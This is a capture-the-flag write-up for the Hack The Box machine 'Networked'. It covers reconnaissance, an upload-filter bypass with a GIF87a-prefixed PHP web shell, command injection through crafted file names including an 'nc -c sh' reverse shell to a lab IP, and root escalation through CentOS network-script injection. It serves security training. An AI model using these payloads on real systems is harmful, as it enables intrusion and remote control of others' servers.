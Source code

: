 # Networked Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -sC -sV -oA networked 10.10.10.146``

![image](https://user-images.githubusercontent.com/123066149/227840214-3b304fe1-8e62-4104-a92d-a2b37f2675cd.png)

``gobuster dir -u http://10.10.10.146/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/227840269-4d6b3ee7-a5af-4c5f-a298-6dd58ad233b3.png)

# ${{\color{purple}Initial Foothold}}\ $

``http://10.10.10.146/backup/``

![image](https://user-images.githubusercontent.com/123066149/227840373-08e60823-63f6-4cc0-9a5c-a231c5c4a623.png)

``tar –xvf documents.tar``

### The upload.php lets us upload files and the photos.php displays them. The backup folder
### contains a tar archive, which seems interesting. Let’s download and examine it

![image](https://user-images.githubusercontent.com/123066149/227840430-e93de6fd-708c-4284-866d-f0ddecc92206.png)

### We obtained the source for the PHP files. Looking at the upload.php, we see it checking the file
type:

![image](https://user-images.githubusercontent.com/123066149/227840656-4c6d27e4-aee4-4159-8e0f-ed6d3f227204.png)

### The check_file_type function is present in the lib.php file:

![image](https://user-images.githubusercontent.com/123066149/227840704-7dc51d5e-a41b-4bf2-9266-e316a2bde0a7.png)

### This in turn calls file_mime_type(), and rejects the file if it’s not an image. The check_file_type()
### function uses mime_content_type() to get the MIME type.

![image](https://user-images.githubusercontent.com/123066149/227840785-b3c2c92b-eea3-4b89-a0f9-ea4aee86e6aa.png)

### The mime_content_type() determines the filetype based on it’s magic bytes, which means that
### we can include magic bytes for a PNG file at the beginning and bypass the filter

![image](https://user-images.githubusercontent.com/123066149/227840934-754fb74e-aa96-489e-9eb0-b2a098083300.png)

### The code only accepts image extensions, although it doesn’t check if it has any other extension
### before them. This can be exploited by adding “.php” before a valid extension, which can be
### exploitable, depending on the Apache configuration. Let’s try uploading a normal PHP shell with
### a PNG extension first

![image](https://user-images.githubusercontent.com/123066149/227841052-4b4e78fe-d4dd-4cb0-96e9-cf330e25f3b5.png)

![image](https://user-images.githubusercontent.com/123066149/227841167-263fd0f8-0534-4a00-8fec-e1cf17881c46.png)


# ${{\color{purple}Exploitation}}\ $

### As expected, the image gets rejected due to invalid MIME type. The magic bytes for PNG are “89
### 50 4E 47 0D 0A 1A 0A”, which can be added to the beginning of the shell
### or this can be added : GIF87a

### A good resource for mime types :

https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types

``echo -n -e 'GIF87a <?php echo system($_REQUEST['cmd']); ?>' > test.php.png``

![Capture](https://user-images.githubusercontent.com/123066149/227841834-b763c42a-c266-49dc-a1f7-64808221c9b7.PNG)

![Capture](https://user-images.githubusercontent.com/123066149/227842641-397310f2-31fd-4d89-833c-719c504c3184.PNG)

![image](https://user-images.githubusercontent.com/123066149/227842600-2ce8bdf9-3752-4d0e-93cc-97db985ac6a0.png)


# ${{\color{purple}Privilege Escalation}}\ $

### Browsing to the home folder of the user, two files named check_attack.php and crontab.guly are
### found.

![image](https://user-images.githubusercontent.com/123066149/227843320-a1b71d72-746c-4e17-b4f5-86e265ca86f9.png)

### Here are the contents of the check_attack.php file:

![image](https://user-images.githubusercontent.com/123066149/227844068-b8db5212-4a6f-4750-a795-26b2d0caf341.png)

### The script lists files in the /uploads folder and checks if it is valid based on filename. Any invalid
### files are removed using the system exec() function

![image](https://user-images.githubusercontent.com/123066149/227844227-1976b7a1-48f0-4c01-a085-fb9797b432de.png)

### The $value variable stores the filename, but isn’t sanitized by the script, which means that we can
### inject commands through special file names. For example, a file named “; cmd” will result in the
### command:

![image](https://user-images.githubusercontent.com/123066149/227844740-539c6b45-6e74-4567-9540-b191b026b398.png)

``touch -- ';ping -c 3 10.10.16.3;.php'``

![image](https://user-images.githubusercontent.com/123066149/227845494-d10710e3-4933-48f8-8e2c-a21432e1a0c5.png)

![image](https://user-images.githubusercontent.com/123066149/227846087-d38a33ba-4258-4c9c-89fe-eb9ec5c5e2cc.png)

``touch -- ';nc -c sh 10.10.16.3 5000;.php'``

![image](https://user-images.githubusercontent.com/123066149/227846212-c4f52290-2b68-48bb-b91a-4d7130e08c0d.png)

#### Looking at the sudo privileges, we see that guly can execute changename.sh as root.

![image](https://user-images.githubusercontent.com/123066149/227846847-5740d7e8-5a43-4e94-9b37-bdc8bd2fe270.png)

https://seclists.org/fulldisclosure/2019/Apr/24

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/227845992-a2b2c4a3-fb09-461b-bcb1-4d12bec8eec1.png)

### The script creates a configuration for the guly0 network interface and uses “ifup guly0” to
### activate it at the end. The user input is validated, and only alphanumeric characters, slashes or a
### dash are allowed. Network configuration scripts on CentOS are vulnerable to command injection
### through the attribute values as described here. This is because the scripts are sourced by the
### underlying service, leading to execution of anything after a space.
### We can exploit this by executing /bin/bash as root

![image](https://user-images.githubusercontent.com/123066149/227846976-ed89973a-9f35-4815-8f0a-4749204d3e4f.png)

# ${{\color{purple}Point of Improvement}}\ $
